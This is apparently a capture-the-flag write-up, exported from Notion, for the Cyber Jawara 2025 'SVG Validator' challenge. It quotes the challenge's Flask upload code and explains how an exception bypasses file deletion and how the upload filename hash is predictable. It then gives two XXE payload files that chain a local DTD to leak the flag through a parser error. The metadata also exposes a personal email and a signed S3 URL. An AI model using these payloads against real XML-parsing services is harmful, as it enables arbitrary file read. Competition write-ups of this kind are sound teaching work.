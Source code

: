 ```yaml
---
id: 17948583-e65d-8037-bf0f-d573b2499823
title: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
created_time: 2025-01-12T10:59:00.000Z
last_edited_time: 2025-05-22T09:16:00.000Z
cover_image: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif
icon_emoji: 🫡
categories:
  - XXE
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Read the file with lxml.etree that Vulnerable to XXE, include the local DTD,
  and generate an error to read the Flag: Cyber Jawara National 2025 Quals SVG
  Validator
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/mita-miside-oshinokodance-oshinokodance_bVLkwBdw.gif

---
```


# Description

A simple SVG validator.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/8d6a70b2-6c3c-410a-9ddb-5303e731a08d/svg-validator.zip?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466473ISUYW%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T094458Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEDEaCXVzLXdlc3QtMiJIMEYCIQCRjKZs4qenJVcBsJhkF%2BY6dQcSYe0XtFImG2O3yR%2B4lQIhAMsWfhQ8X91ycrNJhvgsCxG8NrQHO2YOQZw2UdDXYMc4KogECOr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEQABoMNjM3NDIzMTgzODA1Igxk682jUmiUdw4MElgq3ANMwGSKmS4gh7dgku7m%2Fpxye8tlt4QC60K6SHXz%2B%2FrEeQgA9MJNc4own2DgMoRdMcFd2iDLgvOzElGDYoK1LCFYC9reNPaZQTMZ1udAaQf3%2FR7EGoG9uWSgGGGPFnD2dvXQVWwenkTBCKTNrIrfVix2paAYNn4mgL16b6%2B4vCCZgrRDVWlO%2FI9N4A2%2FNJlSjKpfbxhBTrlke1GWTaN7IAUBp9d6HM9Z0qiVfCqa2flh53h%2FhXZZpp9iWylk35EWTv111pDR8zrKvdUVJId8kV%2BTv09vBpUKaj1BOkcHnhwMTrOxFOxR6BpvlTAy8IpSDS51%2FBtzWbWdUB1QiIkEL8Cgaw1FosaNWDclx6U2yI3v6zYW7VX9UlvLj4hUtVR%2F%2FHUoHdNSjIFRXvc2L1JBrP%2FTCSoIM09MGcvYB3qqGf1E1UyADYPkgXSAIZyJWSSdZXHzHd11uM25A5Buu%2BSofa0HLvK%2FP3Mb4IVVayWLnqi5nVI3PIaEoD9W%2B0SpplMNPcGuzCMr%2Fk5TnsTeq7vCNv8pJUY6%2B1sLA0zFOCdxl2OHwdO6Xi%2FEk1NIDh40zf0O4gIlwZS0eXvSVXTQT7WRlgZaHsLx3LGW2BbrbHMnQOZlwMM62k9vJvX8%2B8cNGzC38cDBBjqkAeSuyoPB7NMyI2cfQk2kUzKWByHJKyJNLJ0T7H9Igubz9l05zFG%2FZVmQqOviEhJJHeox9q2vqefkKWhTTxO5BNa9UuTeEb2MRXnm6MVHVg1CYBNqWxPwi9NzStYhLnbKcUYS440ADls4sm2kg4afG9vQzMFjQ%2FqeTOaWvyIoI0Lt5n4gL2lHFbcvjIujo2RunkYIAVqDUlPmAE8FggAJ7cZZB9E4\&X-Amz-Signature=f3b3e01ec1bb48642f720f665267d77cc985fd271e73e6068a52ee92ade6754c\&X-Amz-SignedHeaders=host\&x-id=GetObject)

# Exploit

In order to gain Arbitrary File Read, we will exploit the XXE vulnerability in the `lxml.etree`. We must introduce an error in the XML since we cannot read the flag information directly because we do not receive the rendered XML's direct output.

For this task, we have to save our local file on the server, but we can't because it will be deleted after validation. However, we can store and get around the `os.remove` due of a logical error:

```python
        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

Therefore, by making the `is_valid_svg` function throw an error, we can avoid the `os.remove` step and ensure that the file stored on the server will remain intact even if our `is_valid_svg` method gives an error.

```python
def is_valid_svg(file_path):
    tree = etree.parse(file_path)
    root = tree.getroot()
    return root.tag.endswith('svg')

@app.route('/upload', methods=['POST'])
def upload_file():
    if 'file' not in request.files:
        return jsonify({'error': 'No file part'}), 400

    file = request.files['file']

    if file.filename == '':
        return jsonify({'error': 'No selected file'}), 400

    if not allowed_file(file.filename):
        return jsonify({'error': 'Invalid file extension'}), 400

    file_path = ''

    try:
        extension = file.filename.rsplit('.', 1)[1].lower()

        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
        file_path = os.path.join(app.config['UPLOAD_FOLDER'], filename)
        file.save(file_path)

        valid = is_valid_svg(file_path)
        os.remove(file_path)

        return jsonify({'valid': valid})
    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

We now need to keep one XML file on the server so that we can add it later to cause an error that will leak the flag. This is the first file we upload:

testing.svg

```python
<!ENTITY % content SYSTEM "file://app/flag.txt">
	<!ENTITY % test '<!ENTITY &#x25; file SYSTEM "file:///tmp/%content;">'>
 	%test;
```

due to the etree.Parse will automatically avoid the os.remove function and throw an error since it does not recognize this as valid XML. The second file is as follows:

file.svg

```python
<!DOCTYPE root [
	<!ENTITY % dtd SYSTEM "file:///tmp/051880fbfbd0b3f38ec3244610784c3a9c258f755039bb7cf1311fd1fc843f2d.svg">
 	%dtd;
]>
<svg></svg>
```

The file in tmp is a file that we upload before, the hash isn’t random and same each iteration because their filename isn’t use secret.token\_hex function properly:

```python
        filename = hashlib.sha256(
            (file.filename + str(secrets.token_hex)[:16]).encode('utf-8')
        ).hexdigest() + '.' + extension
```

So after we uploaded that two file we will get the flag:

![](./imgs/image_UQYv5eO4.png)
